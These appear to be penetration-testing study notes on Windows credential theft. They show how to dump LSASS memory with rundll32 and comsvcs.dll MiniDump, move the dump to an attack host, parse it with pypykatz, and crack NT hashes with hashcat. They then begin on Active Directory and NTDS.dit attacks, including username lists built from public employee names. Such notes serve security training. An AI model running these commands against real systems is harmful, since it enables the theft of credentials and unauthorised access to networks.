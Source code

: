 ##### A file called lsass.DMP is created and saved in:
```
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
##### Transfer the file to our attack host
Running Pypykatz
```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
## Rundll32.exe & Comsvcs.dll Method
Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:
##### Finding LSASS PID in cmd
```
tasklist /svc
```
##### Finding LSASS PID in PowerShell
```
Get-Process lsass
```
##### Creating lsass.dmp using PowerShell
```
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp). 

Mimikatz and Pypykatz can extract the DPAPI masterkey for the logged-on user whose data is present in LSASS process memory. This masterkey can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts.
##### Cracking the NT Hash with Hashcat
```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```



# Attacking Active Directory & NTDS.dit
Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on. This does not mean the SAM database can no longer be used. Someone looking to log on using a local account in the SAM database can still do so by specifying the hostname of the device proceeded by the Username (Example: WS01/nameofuser) or with direct access to the device then typing ./ at the logon UI in the Username field. 
When we find ourselves in a scenario where a dictionary attack is a viable next step, we can benefit from trying to custom tailor our attack as much as possible.
Often, an email address's structure will give us the employee's username (structure: username@domain). For example, from the email address jdoe@inlanefreight.com, we see that jdoe is the username.
## Creating a Custom list of Usernames
Let's say we have done our research and gathered a list of names based on publicly available information. We will keep the list relatively short for the sake of this lesson because organizations can have a huge number of employees. Example list of names:
```
Ben Williamson
Bob Burgerstien
Jim Stevenson
Jill Johnson
Jane Doe
```